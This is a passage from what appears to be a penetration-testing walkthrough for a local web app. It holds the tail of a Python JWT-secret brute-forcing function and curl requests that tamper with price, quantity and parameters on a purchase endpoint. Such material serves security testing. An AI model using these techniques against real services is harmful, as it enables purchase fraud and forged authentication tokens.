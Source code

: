 ```python
            print(f"Decoded payload: {decoded}")
            return secret
        except jwt.InvalidTokenError:
            continue
    
    return None

# Usage example
token = "your_jwt_token_here"
secret = bruteforce_jwt_secret(token)
```

### Phase 9: Business Logic Vulnerability Testing

#### 9.1 Price Manipulation
**Target**: `/api/purchase` endpoint

```bash
# Normal purchase
curl -X POST http://localhost:5000/api/purchase \
  -H "Content-Type: application/json" \
  -d '{"product_id": "1", "quantity": 1, "price": 999.99}'

# Price manipulation - negative price
curl -X POST http://localhost:5000/api/purchase \
  -H "Content-Type: application/json" \
  -d '{"product_id": "1", "quantity": 1, "price": -999.99}'

# Price manipulation - zero price
curl -X POST http://localhost:5000/api/purchase \
  -H "Content-Type: application/json" \
  -d '{"product_id": "1", "quantity": 1, "price": 0.01}'

# Quantity manipulation
curl -X POST http://localhost:5000/api/purchase \
  -H "Content-Type: application/json" \
  -d '{"product_id": "1", "quantity": -1, "price": 999.99}'
```

#### 9.2 Workflow Bypass Testing
```bash
# Integer overflow attempt
curl -X POST http://localhost:5000/api/purchase \
  -H "Content-Type: application/json" \
  -d '{"product_id": "1", "quantity": 999999999999999999, "price": 0.00001}'

# Parameter pollution
curl -X POST http://localhost:5000/api/purchase \
  -d "product_id=1&quantity=1&price=999.99&price=0.01"
```

### Phase 10: Session Management Testing
